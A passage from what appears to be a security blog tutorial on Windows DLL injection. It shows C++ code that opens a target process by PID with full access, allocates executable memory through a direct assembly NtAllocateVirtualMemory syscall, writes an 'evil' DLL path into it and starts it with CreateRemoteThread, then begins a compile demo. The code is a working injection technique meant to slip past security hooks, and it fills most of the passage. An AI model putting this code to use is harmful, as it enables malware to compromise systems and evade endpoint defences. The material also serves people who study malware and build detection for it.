 ```cpp
  );

int main(int argc, char* argv[]) {
  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  LPVOID rb; // remote buffer

  // handle to kernel32 and pass it to GetProcAddress
  HMODULE hKernel32 = GetModuleHandle("Kernel32");
  VOID *lb = GetProcAddress(hKernel32, "LoadLibraryA");

  // parse process ID
  if ( atoi(argv[1]) == 0) {
    printf("PID not found :( exiting...\n");
    return -1;
  }
  printf("PID: %i", atoi(argv[1]));
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));

  myNtAllocateVirtualMemory(ph, &rb, 0, (PULONG)&evilLen, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

  // "copy" evil DLL between processes
  WriteProcessMemory(ph, rb, evilDLL, evilLen, NULL);

  // our process start new thread
  rt = CreateRemoteThread(ph, NULL, 0, (LPTHREAD_START_ROUTINE)lb, rb, 0, NULL);
  CloseHandle(ph);
  return 0;
}
```

In order to add an assembly function into our `C` program and to establish its name, return type, and parameters, we utilize the `extern "C"` (`EXTERN_C`) directive. This preprocessor directive indicates that the function is defined elsewhere, and it is linked and invoked according to the `C`-language conventions. This approach is also applicable when we want to include assembly language written system call functions in our code. Simply convert the system call invocations written in assembly to the appropriate assembler template syntax, define the function using the `EXTERN_C` directive, and add to our code (or store this in a header file, this header file can then be included in our project.).      

That's all.    

### demo

Let's go to see everything in action.       

First of all compile our `.asm` file:     

```bash
nasm -f win64 -o syscall.o syscall.asm
```
